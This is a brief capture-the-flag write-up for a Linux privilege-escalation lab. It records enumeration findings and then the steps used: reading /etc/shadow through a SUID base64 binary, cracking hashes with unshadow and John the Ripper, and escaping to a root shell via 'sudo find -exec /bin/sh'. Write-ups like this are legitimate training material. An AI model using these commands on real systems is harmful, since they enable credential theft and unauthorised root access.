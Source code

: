 ##   Answer the questions below

Notes:
- Linux Version 3.10.0-1160.el7.x86_64
- SUID /usr/bin/base64 
- Vulnerable to CVE-2021-4034
- PATH Abuses ``/home/leonard/`` ``/home/leonard/perl5``
- CVE Suggestions: [CVE-2016-5195] dirtycow [CVE-2016-5195] dirtycow 2 
- users: leonard, missy, root

**What is the content of the flag1.txt file?**

- `scp leonard@10.10.113.87:/etc/passwd passwd_challenge.txt`
- `base64` has SUID so we can read /etc/shadow and decrype and save to shadow_challenge.txt
- ``unshadow passwd_challenge.txt shadow_challenge.txt > challenge.txt`` 
- ``john challenge.txt --wordlist=/usr/share/wordlists/rockyou.txt``

- missy password = Password1

- flag.txt is in documents

**What is the content of the flag2.txt file?**

- missy can fun find as sudo
- ``sudo find . -exec /bin/sh \; -quit`` gives us a root shell!
- cat rootflag/flag2.txt







